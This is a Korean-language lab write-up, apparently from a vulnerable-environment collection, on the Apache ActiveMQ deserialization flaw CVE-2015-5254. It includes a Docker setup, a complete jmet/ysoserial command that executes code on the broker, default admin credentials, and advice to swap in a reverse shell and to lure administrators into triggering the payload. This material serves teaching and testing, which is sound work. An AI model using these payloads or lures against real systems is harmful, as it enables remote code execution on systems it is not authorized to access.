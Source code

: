 # ActiveMQ 직렬화 취약점 (CVE-2015-5254)

[한국어본(Korean version)]

Apache ActiveMQ는 미국 아파치(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로, Java 메시징 서비스, 클러스터링, Spring 프레임워크 등을 지원합니다.

Apache ActiveMQ 버전 5.x에서 5.13.0 이전에는 보안 취약점이 존재합니다. 이 취약점은 프로그램이 프록시에서 직렬화할 수 있는 클래스를 제한하지 않아 발생합니다. 원격 공격자는 특수하게 직렬화된 Java 메시징 서비스 (JMS) ObjectMessage 객체를 만들어 이 취약점을 이용하여 임의의 코드를 실행할 수 있습니다.

참고 링크:

- https://www.blackhat.com/docs/us-16/materials/us-16-Kaiser-Pwning-Your-Java-Messaging-With-Deserialization-Vulnerabilities.pdf

## 취약한 환경


취약한 환경을 시작합니다:

```
docker compose up -d
```

환경을 실행한 후 61616 포트와 8161 포트에 두 개의 포트가 설정됩니다. 61616 포트는 작업 포트이며, 메시지가 이 포트로 전달됩니다. 8161 포트는 웹 페이지 관리 페이지 포트입니다. http://your-ip:8161로 접속하면 네트워크 관리 페이지를 볼 수 있지만, 이 취약점은 이론적으로 네트워크가 필요하지 않습니다.

## Exploit

Exploit 과정은 다음과 같습니다:

1. 직렬화된 payload를 생성합니다 (ysoserial을 사용할 수 있습니다).
2. payload를 61616 포트로 전송합니다.
3. 웹 관리 페이지에 접속하여 직렬화된 메시지를 읽으면 취약점을 트리거할 수 있습니다.





이 환경을 이용하기 위해 jmet (Java Message Exploitation Tool)을 사용할 것입니다. 먼저 jmet의 jar 파일을 다운로드하고 동일한 디렉토리에 external이라는 폴더를 만듭니다 (그렇지 않으면 폴더가 없다는 오류가 발생할 수 있습니다).

jmet은 ysoserial을 사용하여 payload를 생성하고 전송하는 도구입니다 (이 jar 파일에는 ysoserial이 함께 제공되므로 다시 다운로드할 필요가 없습니다). 따라서 ysoserial에서 사용할 수 있는 gadget으로 선택할 옵션을 선택해야 합니다. 예를 들어 ROME을 선택할 수 있습니다.

실행:

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

![](1.png)

이제 event라는 이름의 큐가 대상 ActiveMQ에 추가됩니다.

http://your-ip:8161/admin/browse.jsp?JMSDestination=Event을 방문하여 이 큐의 모든 메시지를 볼 수 있습니다.

(**login / password:** admin/admin):

![](2.png)

이 메시지를 클릭하여 명령을 실행하면 docker compose exec activemq bash를 사용하여 컨테이너 내부로 이동할 수 있습니다.

/tmp/success가 성공적으로 생성된 것을 볼 수 있습니다. 이는 성공적으로 exploit이 수행되었음을 나타냅니다.

![](3.png)

명령을 역쉘 명령으로 바꾸고 다시 사용할 수 있습니다.
![](4.png)

웹 관리 페이지를 통해 메시지에 액세스하고 취약점을 트리거하려면 관리자 권한이 필요합니다. 비밀번호가 없는 경우 관리자가 우리의 링크를 방문하도록 유도하거나 다른 서비스의 정당한 메시지로 위장하여 클라이언트 액세스를 기다려야 할 수 있습니다.